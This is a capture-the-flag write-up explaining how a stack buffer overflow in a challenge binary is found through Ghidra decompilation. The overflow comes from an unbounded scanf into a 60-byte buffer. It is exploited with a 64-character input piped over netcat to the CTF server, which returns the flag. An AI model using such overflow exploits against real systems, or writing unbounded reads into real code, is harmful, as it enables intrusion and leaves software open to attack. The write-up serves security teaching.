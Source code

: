 # Faculta Necshevet Identifier 
Category: Reversing & Binary Exploitation

## Description
> DuckyDebugDuck decided to continue development on his "Faculta Necshevet Identifier" from the initial challenge and finally finished the first version, he told us that if you're from a "Faculta Necshevet" then you'll get a flag!

A binary file was attached.

## Solution

Let's run the attached file:

```console
root@kali:/media/sf_CTFs/technion/Faculta_Necshevet_Identifier# ./facultaNecshevetIdentifier
My name is DuckyDebugDuck, what's yours? test
Hi test, checking...
You're not from a faculta necshevet, you won't get the flag
```

We must enter the correct name in order to be identified as worthy to get the flag.

Let's check the decompilation with Ghidra:

```c
undefined8 main(void)

{
  undefined user_input [60];
  int is_auth;
  
  is_auth = 0;
  printf("My name is DuckyDebugDuck, what\'s yours? ");
  __isoc99_scanf(&DAT_00102032,user_input);
  printf("Hi %s, checking...\n",user_input);
  if (is_auth == 0) {
    puts("You\'re not from a faculta necshevet, you won\'t get the flag");
  }
  else {
    puts("YOU\'RE FROM A FACULTA NECHSEVET, here\'s the flag: ##############");
  }
  return 0;
}
```

We can see that the user input is read into a 60 byte buffer. However, the length of the input read from the user isn't limited to 60:
```assembly
                             DAT_00102032                                    XREF[1]:     main:001011b4(*)  
        00102032 25              ??         25h    %
        00102033 73              ??         73h    s
        00102034 00              ??         00h
```

Therefore, we can enter a string of any length and override other stack members, such as `is_auth`. If we override `is_auth` with any value other than 0, we will get the flag.

In order to override `is_auth`, we'll send a name of length 64 - 60 characters to fill up the `user_input` buffer and four more to reach `is_auth` and change its boolean value to "true":


```console
root@kali:/media/sf_CTFs/technion/Faculta_Necshevet_Identifier# python -c "print('a'*64)" | nc ctf.cs.technion.ac.il 4005
My name is DuckyDebugDuck, what's yours? Hi aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, checking...
YOU'RE FROM A FACULTA NECHSEVET, here's the flag: cstechnion{kn0w_th3_l1m1ts_4nd_br34k_th3m}
```